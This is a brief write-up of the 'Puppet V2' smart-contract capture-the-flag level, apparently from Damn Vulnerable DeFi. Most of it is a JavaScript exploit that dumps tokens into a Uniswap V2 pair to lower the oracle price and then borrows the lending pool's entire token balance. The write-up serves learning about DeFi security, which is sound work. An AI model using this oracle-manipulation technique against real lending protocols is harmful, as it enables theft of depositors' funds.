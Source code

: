# Puppet V2

1. Quite same with Puppet challenge, but this time it use Uniswap V2 exhange as price oracle and use its library to compute the price. But the approach still quite the same.

```javascript
/** CODE YOUR EXPLOIT HERE */
// approve uniswapRouter to manage our token
await this.token
  .connect(attacker)
  .approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
// swap our token to ETH
await this.uniswapRouter
  .connect(attacker)
  .swapExactTokensForETH(
    ATTACKER_INITIAL_TOKEN_BALANCE,
    1,
    [this.token.address, this.weth.address],
    attacker.address,
    (await ethers.provider.getBlock("latest")).timestamp * 2
  );
var balance = await ethers.provider.getBalance(attacker.address);
var required = await this.lendingPool.calculateDepositOfWETHRequired(
  POOL_INITIAL_TOKEN_BALANCE
);
// deposit to wETH the swapped ETH
await this.weth
  .connect(attacker)
  .deposit({ value: ethers.utils.parseEther("29.7") });
// then drain the pool
await this.weth
  .connect(attacker)
  .approve(this.lendingPool.address, ethers.utils.parseEther("30"));
await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
```
